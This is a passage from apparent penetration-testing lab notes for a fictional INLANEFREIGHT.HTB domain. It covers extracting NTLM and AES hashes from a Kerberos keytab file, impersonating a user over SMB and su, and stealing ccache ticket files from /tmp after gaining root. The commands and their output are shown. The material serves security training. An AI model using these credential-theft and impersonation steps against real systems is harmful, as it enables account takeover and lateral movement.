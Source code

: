 By now, we can now act as carlos and access whatever shares intended for him.

```bash
$smbclient //dc01/carlos -k -c ls
```

### Method 2: KeyTabExtract tool

```bash
$python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 

[+] Keytab File successfully imported.
        REALM : INLANEFREIGHT.HTB
        SERVICE PRINCIPAL : carlos/
        NTLM HASH : a738f92b3c08b424ec2d99589a9cce60
        AES-256 HASH : 42ff0baa586963d9010584eb9590595e8cd47c489e25e82aae69b1de2943007f
        AES-128 HASH : fa74d5abf4061baa1d4ff8485d1261c4
```

It is important to note that a single keytab file can contain various information about several and different users. All in one file. Good for us. If we successfully crack the password, we can login as the victim, and obtain even more hashes through other keytab files that are being used by scripts or cronjobs. As an example:

> Carlos has a cronjob that uses a keytab file named `svc_workstations.kt`. We can repeat the process, crack the password, and log in as `svc_workstations`.

```bash
$su - carlos@inlanefreight.htb
$ klist 
Ticket cache: FILE:/tmp/krb5cc_647402606_ZX6KFA
Default principal: carlos@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/07/2022 11:01:13  10/07/2022 21:01:13  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/08/2022 11:01:13
```

***

## Abusing ccache files

These files are located in `/tmp` and needs `read+write` permissions to abuse them. So we need to escalate to root in order to get whatever we need about the ccache file's owner.

```bash
root#ls -la /tmp

-rw-------  1 julio@inlanefreight.htb            krb5cc_647401106_HRJDux
-rw-------  1 julio@inlanefreight.htb            krb5cc_647401106_qMKxc6
-rw-------  1 david@inlanefreight.htb            krb5cc_647401107_O0oUWh
-rw-------  1 svc_workstations@inlanefreight.htb krb5cc_647401109_D7gVZF
-rw-------  1 carlos@inlanefreight.htb           krb5cc_647402606
-rw-------  1 carlos@inlanefreight.htb           krb5cc_647402606_ZX6KFA
```

